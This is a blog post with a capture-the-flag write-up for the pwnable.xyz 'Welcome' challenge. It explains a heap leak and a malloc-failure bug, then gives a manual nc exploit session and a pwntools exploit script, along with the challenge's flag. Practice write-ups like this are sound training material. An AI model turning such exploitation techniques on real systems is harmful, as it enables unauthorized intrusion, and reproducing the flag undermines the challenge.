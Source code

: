 ```yaml
---
layout: post
title: "PwnableXYZ: Welcome challenge"
date: 2024-02-06
tags: [Pwn] 
description: This post discuss the solution for the first pwnable.xyz challenge.
---
```


# Introduction
That is my first post in 2024, so I thought to refresh my knowledge about binary exploitation by going through the [pwnable.xyz](https://pwnable.xyz/) challenges in my free time. This post will be the write-up for the first challenge **"Welcome"**.

# Gaining insights on the binary

The first step I usually do, is to check the mitigations of the binary using the `checksec` command in pwndbg. The command's output shows that all the mitigations are turned on.

![img]({{'/assets/images/PwnableXYZ-Welcome/img1.png' | relative_url }}){: .center-image }*(**The mitigations status**)*

By executing the binary, I found that it prints out a hexadecimal number representing a memory address leak and receives two inputs, which are the message's length and the message itself, as shown below.

> CommandLine 
{:.filename}
{% highlight CMD %}
$ ./challenge
Welcome.
Leak: 0x7f318f02c010
Length of your message: 5
Enter your message: aaaaa
aaaa
{% endhighlight %}

# Finding the vulnerability

The main function starts with calling the function at address 0x100b4e, which is responsible for stopping the buffering for stdin and stdout. Also, it automatically signals the program to exit in 60 seconds.

![img]({{'/assets/images/PwnableXYZ-Welcome/img2.png' | relative_url }}){: .center-image }*(**The function at 0x100b4e**)*

After that, it allocates memory from memory the heap whose address is saved to a pointer `HeapPtr1` and sets its first byte to 1. Then, it prints out the `HeapPtr1` value that represents the memory leak, we saw previously. In the next step, it receives from the user two inputs: a number representing the message size and the message. The message is a string whose address in the heap is saved into a pointer called `HeapPtr2`, as appears below.

![img]({{'/assets/images/PwnableXYZ-Welcome/img3.png' | relative_url }}){: .center-image }*(**Allocating memory for the message**)*

Finally, the last byte of the message is set to null, and the program prints it to the screen. Also, as appears below, to print the flag, the first byte of the memory pointed to by a `HeapPtr1` must be equal to zero. However, it's equal to one.

![img]({{'/assets/images/PwnableXYZ-Welcome/img4.png' | relative_url }}){: .center-image }*(**The vulnerable code**)*

The above highlighted line represents the vulnerability that will enable us to set the first byte of `HeapPtr1` to zero using the message size that we control.

# Exploiting the vulnerability

To exploit the vulnerability, first, we need the result of `HeapPtr2 + msgSize-1` to equal the leaked address. That is achieved by inputting the message size with value `HeapPtr1 + 1`, which will cause the `malloc` to return zero (`HeapPtr2` is zero), as it will fail to allocate the requested memory size, leading us to set the first byte of `HeapPtr1` to zero.

There are two ways to exploit that binary, the first one, as shown below, is achieved by converting the leaked address from hexadecimal to decimal. Then, incrementing and inputting it as message size. However, this conversion must be within 60 seconds before the program is signaled to exit.

> CommandLine 
{:.filename}
$ nc svc.pwnable.xyz  30000 
Welcome.
Leak: 0x7fac38973010
Length of your message: 140377660534801
Enter your message: 32323
FLAG{did_you_really_need_a_script_to_solve_this_one?}
{% endhighlight %}

The second way is to implement a Python script that uses [pwntools](https://docs.pwntools.com/en/stable/), to automate the previous task, as the following script.

> The exploit script
{:.filename}
{% highlight Python %}

from pwn import *

conn = remote("svc.pwnable.xyz",30000)
data = str(conn.recvuntil(b"message: "),"utf-8")
lines = data.split("\n")
leak = lines[1].split(":")[1].strip() #leaked address
OverwriteAddress = int(leak,16) # convert it to decimal
address = str(OverwriteAddress+1) # increment the address
conn.sendline(str.encode(address)) # input message size to be equal the leaked address + 1
conn.sendline(b"random") # send anything and it will work
flag = conn.recvall()
print(flag) # the flag

{% endhighlight %}





  
